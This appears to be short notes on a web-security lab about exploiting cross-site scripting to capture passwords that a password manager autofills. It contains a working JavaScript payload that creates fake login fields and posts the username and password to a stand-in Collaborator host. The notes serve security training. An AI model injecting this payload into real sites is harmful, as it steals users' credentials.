

# Lab: Exploiting XSS+CSRF to Capture Passwords

## Abusing Password Manager Auto-submit

Password managers that automatically submit a username and password work forms, bypassing common XSS data-exfiltration protections.

Example payload:

```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://COLLAB_SUB.oastify.com',{
    method:'POST',
    mode: 'no-cors',
    body:username.value+':'+this.value
});">
```

Callback:



Reference: <https://portswigger.net/web-security/cross-site-scripting/exploiting#exploiting-cross-site-scripting-to-capture-passwords>